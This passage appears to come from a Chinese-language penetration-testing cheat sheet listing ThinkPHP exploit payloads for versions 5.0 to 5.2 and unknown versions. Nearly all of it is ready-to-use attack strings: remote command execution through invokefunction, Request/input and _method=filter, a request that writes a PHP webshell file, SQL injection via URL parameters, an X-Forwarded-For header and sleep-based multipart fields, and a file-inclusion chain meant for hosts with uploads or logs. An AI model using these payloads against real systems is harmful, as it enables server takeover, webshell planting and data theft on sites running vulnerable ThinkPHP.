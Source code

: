 ## 5.10 thinkphp 5.1.*

```plain
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd
http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
```

## 5.11 thinkphp 5.1.*和5.2*和5.0*

 

```plain
 (post)public/index.php (data)c=exec&f=calc.exe&_method=filter 
```

## 5.12 thinkphp 未知版本

```plain
?s=index/\think\module/action/param1/${@phpinfo()}
?s=index/\think\Module/Action/Param/${@phpinfo()}
?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}
index.php?s=/home/article/view_recent/name/1'
header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"
index.php?s=/home/shopcart/getPricetotal/tag/1%27
index.php?s=/home/shopcart/getpriceNum/id/1%27 index.php?s=/home/user/cut/id/1%27 index.php?s=/home/service/index/id/1%27 index.php?s=/home/pay/chongzhi/orderid/1%27 index.php?s=/home/pay/index/orderid/1%27 index.php?s=/home/order/complete/id/1%27 index.php?s=/home/order/complete/id/1%27 index.php?s=/home/order/detail/id/1%27 index.php?s=/home/order/cancel/id/1%27 index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+ POST /index.php?s=/home/user/checkcode/ HTTP/1.1 Content-Disposition: form-data; name="couponid"1') union select sleep('''+str(sleep_time)+''')#
```

## 5.13 当php7以上无法使用Assert的时候用

 

```plain
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=包含&x=phpinfo();
有上传图片或者日志用这个包含就可以
```

# 参考
